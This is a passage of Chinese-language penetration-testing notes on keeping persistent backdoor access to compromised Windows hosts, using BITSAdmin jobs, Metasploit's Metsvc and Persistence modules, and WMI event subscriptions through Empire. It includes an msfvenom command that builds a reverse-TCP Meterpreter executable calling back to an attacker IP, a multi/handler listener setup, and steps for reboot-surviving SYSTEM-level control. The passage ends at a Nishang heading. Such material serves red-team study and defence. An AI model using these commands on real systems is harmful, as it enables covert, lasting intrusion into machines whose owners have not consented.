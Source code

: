 4.  执行任务

    ```
    bitsadmin /resume test
    ```

5.  完成任务

    ```
    bitsadmin /complete test
    ```

6.  如果没有执行"bitsadmin /complete test"命令，即使重启系统任务依然存在，重启后等待几秒后还会执行。



### msf后门

MSF后门模块

1、MSF留后门的两种方式：

-   Metsvc：通过服务启动，会在目标主机上以Meterpreter的服务的形式注册在服务列表中，并开机自动启动。
-   Persistence：通过启动项启动，在目标机器上以反弹回连方式来连接服务器。



2、首先获取Meterpreter shell,使用Msfvenom生成反弹shell 木马，然后在目标机器上执行木马程序后去shell。

1.  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.105 LPORT=1234 -f exe >/tmp/shell.exe
2.  msf6>use exploit/multi/handler
3.  msf6>set payload windows/metsvc_bind_tcp 
4.  msf6>set lport 31337
5.  msf6>set rhost 192.168.1.103
6.  msf6>run



### WMI型后门

1、wmic startup list full 自启动的程序

2、wmic process call create "calc.exe" 在当前机器中执行指定程序

3、wmic process where(description="rundll32.exe")查看rundll32所加载的dll

4、wmic cpu get DataWidth /format:list 查询当前机器的操作系统位数

5、WMI的事件分两类：

1.  本地事件：有生命周期，为进程宿主的周期
2.  永久性WMI事件订阅：存储在WMI库中，以SYSTEM权限运行，并且重启后依然存在
3.  使用Empire的wmi模块之前，需要使用Empire获取目标主机shell，使用Empire创建名为test的监听并生成powershell代码
4.  在目标主机上执行powershell代码之后，在agents功能模块下可以看到上线的主机。
5.  使用powershell/persistence/elevated/wmi模块来创建一个永久的WMI订阅，能够持久化控制目标主机
6.  在目标主机创建了永久订阅后，即使重启也会重新获取目标主机的权限。并且是SYSTEM权限



### Nishang后门
